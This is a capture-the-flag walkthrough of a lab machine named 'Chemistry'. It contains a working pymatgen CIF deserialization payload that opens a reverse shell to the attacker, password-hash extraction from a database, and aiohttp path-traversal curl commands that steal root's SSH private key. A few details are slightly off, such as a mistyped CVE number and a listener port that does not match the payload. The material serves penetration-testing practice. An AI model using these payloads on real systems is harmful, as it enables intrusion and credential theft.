


# Chemistry - Linux(Easy)

## Summary

## Inital startup
Check that you have successfully connected to the VPN and you can reach the box.

```
openvpn lab_connection.ovpn
ping <target IP>
```

## Enumeration
Begin enumeration on the host by running an Nmap scan. 

```
sudo nmap -sC -sV <target IP>

-sC Default Scripts
-sV Version Scan
```


We can see that there appears to be a HTTP web page hosted on port 5000.

## Web Page Investigation
We can try connecting directly to the web page.
```
http://<target IP>:5000
```
We can access the site. This shows a CIF Analyzer with Login/Register options.


Next, register and login to the site. This brings up a CIF file upload page.



Download the example CIF file available on the dashboard.




## CIF Vulnerability
Next, we can check if there are any vulnerabilities associated with CIF files that we can use to gain access to the box.

Searching online will find CVE-2024-2334 which can be used for 'Arbitrary Code Execution in Pymatgen via Insecure Deserialization'.
```
Reference: 
https://ethicalhacking.uk/cve-2024-23346-arbitrary-code-execution-in-pymatgen-via-insecure/#gsc.tab=0
https://www.vicarius.io/vsociety/posts/critical-security-flaw-in-pymatgen-library-cve-2024-23346
```
Using the example in the articles we can craft a payload that reaches back to our attacking machine.

```
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in
().__class__.__mro__[1].__getattribute__
( 
	*[().__class__.__mro__[1]]
	+
	["__sub" + "classes__"]
) () 
if d.__name__ == "BuiltinImporter"]
[0].load_module("os")
.system("/bin/bash -c \'sh -i >& /dev/tcp/<Attacking Machine IP>/4444 0>&1\'");
0,0,0'

_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```
Make sure that you are listening on your attacking machine with the port used in the shell commnad, in this case it is 4444.
You will also need to fill in your attacking machines IP (run ifconfig on your machine to find this).
```
SHELL
("/bin/bash -c \'sh -i >& /dev/tcp/<Attacking Machine IP>/4444 0>&1\'");

LISTENER
nc -lvnp 444
```
We can see the user flag on the user Rosa account. Unfortunately, we do not have access to view/read the file.


## User Flag

From here, we can look through the machine for more potential information on the user Rosa.
Reading the app.py file we can see a reference to database.db
```
$ cd app
$ ls
app.py
instance
static
templates
uploads
$ cat app.py
```


Read the database.db file using the sqlite3 command. From this, we can see multiple users and their password hashes. We are interested in Rosa and her password hash.
```
$ ls
app.py
instance
static
templates
uploads
$ cd instance
$ ls
database.db
$ sqlite3 database.db .dump
```


We can either try to crack the password hash locally using a tool such as JohnTheRipper.
Alternatively, I have used the site crackstation.net which will check and see if they have the password for the provided password hash.


Now we have the password for the rosa user account. We know from the nmap scan that SSH port 22 is open on the box.
We can try and access the box via SSH with the rosa account.
```
ssh rosa@<target IP>

cat user.txt
```
The login was successful. We can now read the user.txt file and obtain the user flag.


## Root Flag

We can check locally running network services using the below command. This shows us that we have a service (likely a web server) running on 8080 (localhost).

```
ss -lntp
curl localhost:8080
```


Now, we will change to a local shell on our attacking machine and run the below command to forward the service running on port 8080 on the chemistry box to our attacking machine on port 4000.

```
ssh -L 4000:localhost:8080 rosa@chemistry.htb

```


Next, we can check details on the server and technology it is using. 

```
whatweb localhost:4000
```


We see that it is using aiohttp/3.9.1. Checking for vulnerabilites on this and we can find an exploit for CVE-2024–23334. 
Reading the vulnerability we can see that a curl command like below can exploit the path traversal vulnerability.
Again, these commands are run on the local attacking machine.

```
curl -s --path-as-is "http://localhost:4000/assets/../../../root/root.txt"
```


This could also be used to gain root access by reading SSH private key for root.
```
curl -s --path-as-is "http://localhost:4000/assets/../../../../root/.ssh/id_rsa" > root.pem
chmod 600 root.pem
ssh -i root.pem root@chemistry.htb
```


As we are logging in as root, we can simply cat root.txt to obtain the flag.


Congratulations Chemistry has been successfully Pwned!


